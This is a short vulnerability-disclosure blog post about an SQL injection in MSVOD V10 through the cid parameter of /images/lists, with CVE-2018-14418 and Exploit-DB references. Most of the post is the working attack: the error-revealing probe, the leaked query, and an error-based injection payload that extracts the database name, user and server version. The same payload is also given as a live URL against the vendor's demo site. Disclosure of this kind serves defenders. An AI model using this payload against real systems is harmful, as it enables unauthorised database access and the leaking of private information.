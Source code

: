 +++
title = "MSVOD V10 – SQL Injection"
author = "Hzllaga"
date =  2018-07-17
description = "MSVOD V10 – SQL Injection via /images/lists The $cid parameter controllable."
categories = ["原创"]
tags = ["PHP","SQL注入"]

+++
MSVOD V10 – SQL Injection via /images/lists

The $cid parameter controllable.<!--more-->

Open the page:/images/lists?cid=’

Then SQL will be error:
{{< highlight sql >}}
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' or ms_atlas.class in (12,13,19,22,23,24,35)) ) LIMIT 1' at line 1
{{< /highlight >}}
And we can see that Error SQL  Statement:
{{< highlight sql >}}
SELECT COUNT(*) AS tp_count FROM `ms_atlas` WHERE ( ms_atlas.status = 1 and ms_atlas.is_check=1 and (ms_atlas.class = ' or ms_atlas.class in (12,13,19,22,23,24,35)) ) LIMIT 1
{{< /highlight >}}
So Final Payload:
{{< highlight sql >}}
/images/lists?cid=13%20)%20ORDER%20BY%201%20desc,extractvalue(rand(),concat(0x7c,database(),0x7c,user(),0x7c,@@version))%20desc%20--%20
{{< /highlight >}}
Official demo:

http://px.msvodx.com/images/lists?cid=13%20)%20ORDER%20BY%201%20desc,extractvalue(rand(),concat(0x7c,database(),0x7c,user(),0x7c,@@version))%20desc%20–%20

![](https://cdn.wtfsec.org/img/20200223164223.png)

CVE:[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14418](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14418)

Exploit-DB:[https://www.exploit-db.com/exploits/45062/](https://www.exploit-db.com/exploits/45062/)

